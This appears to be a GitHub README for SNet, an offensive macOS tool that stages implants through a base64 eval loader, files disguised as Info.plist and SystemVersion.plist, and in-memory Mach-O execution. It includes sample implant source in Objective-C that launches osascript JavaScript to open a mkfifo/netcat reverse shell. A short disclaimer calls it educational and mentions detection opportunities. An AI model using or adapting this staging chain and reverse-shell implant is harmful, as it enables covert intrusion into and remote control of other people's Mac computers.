

# SNet - Make My Implant Call Again

Of the same essence as [PyleLess](https://github.com/therealcoiffeur/PyleLess)
SNet is experimenting with unconventional payload staging and execution for
macOS.

## Generate command

> SNet uses the same initial execution technique as [PyleLess](https://github.com/therealcoiffeur/PyleLess).

<u>Command:</u>

```bash
python3 generate.py
```

<u>Output:</u>

```
[+] Stage 0 written to: ./build/stage0.txt
[+] Stage 1 written to: ./build/Info.plist
[+] Stage 2 written to: ./build/SystemVersion.plist
```

Based on the [PyleLess](https://github.com/therealcoiffeur/PyleLess) technique,
stage 0 looks like the following command.

```
python3 -B -c 'import base64;code="...";eval(compile(base64.b64decode(code),"<string>","exec"))'
```

## Architecture

The modules `rame` and `wassup` demonstrate downloading a staged file onto an
ephemeral RAM volume and executing a Mach-O bundle directly from memory through
the legacy `dyld` APIs.

These proofs of concept help study implant reactivation, file masquerading,
memory execution, and the detection opportunities these techniques expose.



## Implant replacement

All you need to do is modify `SOURCE` in `wassup/generate.py` (you may need to
update the build options to add the necessary dependencies).

File: `wassup/generate.py`
```python
...

SOURCE = r"""
#import <Foundation/Foundation.h>

__attribute__((visibility("default")))
int run(void)
{
    NSTask *task = [[NSTask alloc] init];

    task.executableURL = [NSURL fileURLWithPath:@"/usr/bin/osascript"];

    task.arguments = @[
        @"-l",
        @"JavaScript",
        @"-e",
        @"ObjC.import('Foundation'); var app = Application.currentApplication();app.includeStandardAdditions = true; app.doShellScript(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|/usr/bin/nc 127.0.0.1 1337 >/tmp/f\");"
    ];

    task.standardOutput = [NSFileHandle fileHandleWithNullDevice];
    task.standardError = [NSFileHandle fileHandleWithNullDevice];

    NSError *error = nil;

    if (![task launchAndReturnError:&error])
        return -1;

    [task waitUntilExit];

    return (int)task.terminationStatus;
}
"""

...

```

## Information

This tool is for educational purposes and allows you to experiment with the
macOS environment.
